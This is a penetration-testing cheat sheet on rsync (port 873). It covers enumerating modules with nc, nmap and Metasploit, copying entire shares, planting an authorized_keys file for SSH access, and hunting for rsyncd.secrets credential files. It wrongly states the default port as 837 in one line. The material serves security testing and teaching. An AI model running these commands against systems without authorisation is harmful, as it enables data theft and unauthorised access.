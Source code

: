 873 - Pentesting Rsync
Basic Information

    rsync is a utility for efficiently transferring and synchronizing files between a computer and an external hard drive and across networked computers by comparing the modification timesand sizes of files.[3] It is commonly found on Unix-like operating systems. The rsync algorithm is a type of delta encoding, and is used for minimizing network usage. Zlib may be used for additional data compression,[3] and SSH or stunnel can be used for security.

From wikipedia.

Default port: 837

PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack

Enumeration
Banner & Manual communication

nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy        	
NAS_Public     	
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection
​
​
#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password

Enumerate shared folders

An rsync module is essentially a directory share. These modules can optionally be protected by a password. This options lists the available modules and, optionally, determines if the module requires a password to access:

nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list
​
#Example using IPv6 and a different port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730

Notice that it could be configured a shared name to not be listed. So there could be something hidden.
Notice that it may be some shared names being listed where you need some (different) credentials to access. So, not always all the listed names are going to be accessible and you will notice it if you receive an "Access Denied" message when trying to access some of those.
​Brute force​
Manual Rsync

Once you have the list of modules you have a few different options depending on the actions you want to take and whether or not authentication is required. If authentication is not required you can list a shared folder:

rsync -av --list-only rsync://192.168.0.123/shared_name

And copy all files to your local machine via the following command:

rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared

This recursively transfers all files from the directory <shared_name> on the machine <IP>into the ./rsync_shared directory on the local machine. The files are transferred in "archive" mode, which ensures that symbolic links, devices, attributes, permissions, ownerships, etc. are preserved in the transfer.

If you have credentials you can list/download a shared name using (the password will be prompted):

rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared

You could also upload some content using rsync (for example, in this case we can upload an authorized_keys file to obtain access to the box):

rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh

POST

Find the rsyncd configuration file:

find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)

Inside the config file sometimes you could find the parameter secrets file = /path/to/file and this file could contains usernames and passwords allowed to authenticate to rsyncd.
